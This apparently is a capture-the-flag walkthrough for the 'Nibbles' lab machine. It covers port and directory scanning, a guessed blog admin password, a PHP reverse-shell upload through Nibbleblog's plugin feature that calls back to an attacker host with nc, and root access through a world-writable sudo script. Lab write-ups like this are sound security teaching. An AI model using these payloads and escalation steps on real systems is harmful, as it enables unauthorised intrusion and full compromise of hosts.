


# Recon

Found open port with ssh(22) and http(80)

```
> nmap -p- 10.10.10.75 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-17 20:31 CET
Nmap scan report for 10.10.10.75
Host is up (0.059s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 19.19 seconds
```

Simple request at ip reveals existence of /nibbleblog/ directory.


```
> curl 10.10.10.75
<b>Hello world!</b>

<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Web content enumeration scan reveals admin.php file.

```
> gobuster dir -u http://10.129.200.170/nibbleblog/ --wordlist common.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.200.170/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/22 20:00:27 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 304]
/.htaccess            (Status: 403) [Size: 309]
/.htpasswd            (Status: 403) [Size: 309]
/README               (Status: 200) [Size: 4628]
/admin                (Status: 301) [Size: 327] [--> http://10.129.200.170/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [Size: 329] [--> http://10.129.200.170/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]
/languages            (Status: 301) [Size: 331] [--> http://10.129.200.170/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 329] [--> http://10.129.200.170/nibbleblog/plugins/]
/themes               (Status: 301) [Size: 328] [--> http://10.129.200.170/nibbleblog/themes/]
```

# Exploitation 

After accessing admin.php file and some tries, it was possible to guess admin credentials:

login: admin
password: nibbles



Server has vulnerable version of nibbles blog (4.0.3).
That means it is possible to upload arbitrary .php file on it, and execute it's contents.
This can be done via plugins menu:



We create simple reverse-shell payload:

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 9443 >/tmp/f"); ?>

```

Then, we upload it via plugin system, clicking browse, selecting file with payload,
and choosing "Save changes". 

After that, we listen on 9943 port on attack machine, and activate reverse shell
with curl request.

```sh
nc -lvnp 9443
curl http://10.129.200.170/nibbleblog/content/private/plugins/my_image/image.php

```

After that, we upgrade our shell with python script on victim machine:

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'

```

# Privilege Escalation 

In user home directory, there are files:

```
> ls
personal.zip  user.txt

```

After unzipping contents of personal.zip, following folder structure appears:

```
> tree personal

personal
`-- stuff
    `-- monitor.sh

1 directory, 1 file

```

File monitor.sh is writeable by everyone:

```
$ ls -al monitor.sh

-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh

```

And can be run with sudo without password:

```
$ sudo -l

Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

It can be exploited by adding /bin/bash at the end of the file, and executing it
with sudo:

```
$ echo "/bin/bash" >> monitor.sh
$ sudo /home/nibbler/personal/stuff/monitor.sh

```

We gain access to root shell.

```
# cat /root/root.txt
de5e5d6619862a8aa5b9b212314e0cdd
```
